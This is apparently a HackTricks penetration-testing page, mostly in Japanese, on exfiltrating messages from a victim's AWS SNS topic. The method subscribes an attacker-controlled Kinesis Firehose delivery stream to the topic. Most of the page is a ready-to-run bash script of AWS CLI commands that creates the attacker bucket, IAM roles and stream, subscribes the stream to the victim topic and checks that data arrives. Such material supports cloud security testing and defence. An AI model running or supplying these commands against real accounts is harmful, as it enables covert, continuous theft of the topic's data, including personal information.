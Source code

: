 # AWS - SNS to Kinesis Firehose Exfiltration (Fanout to S3)

{{#include ../../../../banners/hacktricks-training.md}}

攻撃者が制御する Kinesis Data Firehose delivery stream を被害者の SNS standard topic に登録するために、Firehose サブスクリプションプロトコルを悪用します。サブスクリプションが設定され、必要な IAM ロールが `sns.amazonaws.com` を信頼するようになると、その後の通知はすべて最小限のノイズで攻撃者の S3 バケットに確実に書き込まれます。

## Requirements
- 攻撃者アカウントに S3 バケット、Firehose delivery stream、および Firehose が使用する IAM ロール を作成するための権限（`firehose:*`, `iam:CreateRole`, `iam:PutRolePolicy`, `s3:PutBucketPolicy` など）。
- 被害者の topic に対して `sns:Subscribe` できる能力（作成後にサブスクリプションロール ARN が提供される場合はオプションで `sns:SetSubscriptionAttributes`）。
- 攻撃者プリンシパルのサブスクライブを許可するトピックポリシー（または攻撃者が既に同一アカウント内で操作している場合）。

## Attack Steps (same-account example)
```bash
REGION=us-east-1
ACC_ID=$(aws sts get-caller-identity --query Account --output text)
SUFFIX=$(date +%s)

# 1) Create attacker S3 bucket and Firehose delivery stream
ATTACKER_BUCKET=ht-firehose-exfil-$SUFFIX
aws s3 mb s3://$ATTACKER_BUCKET --region $REGION

STREAM_NAME=ht-firehose-stream-$SUFFIX
FIREHOSE_ROLE_NAME=FirehoseAccessRole-$SUFFIX

# Role Firehose assumes to write into the bucket
aws iam create-role --role-name "$FIREHOSE_ROLE_NAME" --assume-role-policy-document '{
"Version": "2012-10-17",
"Statement": [{"Effect": "Allow","Principal": {"Service": "firehose.amazonaws.com"},"Action": "sts:AssumeRole"}]
}'

cat > /tmp/firehose-s3-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":["s3:AbortMultipartUpload","s3:GetBucketLocation","s3:GetObject","s3:ListBucket","s3:ListBucketMultipartUploads","s3:PutObject"],"Resource":["arn:aws:s3:::$ATTACKER_BUCKET","arn:aws:s3:::$ATTACKER_BUCKET/*"]}]}
JSON
aws iam put-role-policy --role-name "$FIREHOSE_ROLE_NAME" --policy-name AllowS3Writes --policy-document file:///tmp/firehose-s3-policy.json

aws firehose create-delivery-stream \
--delivery-stream-name "$STREAM_NAME" \
--delivery-stream-type DirectPut \
--s3-destination-configuration RoleARN=arn:aws:iam::$ACC_ID:role/$FIREHOSE_ROLE_NAME,BucketARN=arn:aws:s3:::$ATTACKER_BUCKET \
--region $REGION >/dev/null

# 2) IAM role SNS assumes when delivering into Firehose
SNS_ROLE_NAME=ht-sns-to-firehose-role-$SUFFIX
aws iam create-role --role-name "$SNS_ROLE_NAME" --assume-role-policy-document '{
"Version": "2012-10-17",
"Statement": [{"Effect": "Allow","Principal": {"Service": "sns.amazonaws.com"},"Action": "sts:AssumeRole"}]
}'

cat > /tmp/allow-firehose.json <<JSON
{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":["firehose:PutRecord","firehose:PutRecordBatch"],"Resource":"arn:aws:firehose:$REGION:$ACC_ID:deliverystream/$STREAM_NAME"}]}
JSON
aws iam put-role-policy --role-name "$SNS_ROLE_NAME" --policy-name AllowFirehoseWrites --policy-document file:///tmp/allow-firehose.json

SNS_ROLE_ARN=arn:aws:iam::$ACC_ID:role/$SNS_ROLE_NAME

# 3) Subscribe Firehose to the victim topic
TOPIC_ARN=<VICTIM_TOPIC_ARN>
aws sns subscribe \
--topic-arn "$TOPIC_ARN" \
--protocol firehose \
--notification-endpoint arn:aws:firehose:$REGION:$ACC_ID:deliverystream/$STREAM_NAME \
--attributes SubscriptionRoleArn=$SNS_ROLE_ARN \
--region $REGION

# 4) Publish test message and confirm arrival in S3
aws sns publish --topic-arn "$TOPIC_ARN" --message 'pii:ssn-123-45-6789' --region $REGION
sleep 90
aws s3 ls s3://$ATTACKER_BUCKET/ --recursive
```
## クリーンアップ
- SNS subscription、Firehose delivery stream、一時的な IAM roles/policies、および attacker S3 bucket を削除する。

## 影響
**潜在的な影響**: 最小限の運用フットプリントで、ターゲットとなる SNS topic に公開されたすべてのメッセージが継続的かつ永続的に attacker-controlled storage へ exfiltration される可能性がある。

{{#include ../../../../banners/hacktricks-training.md}}
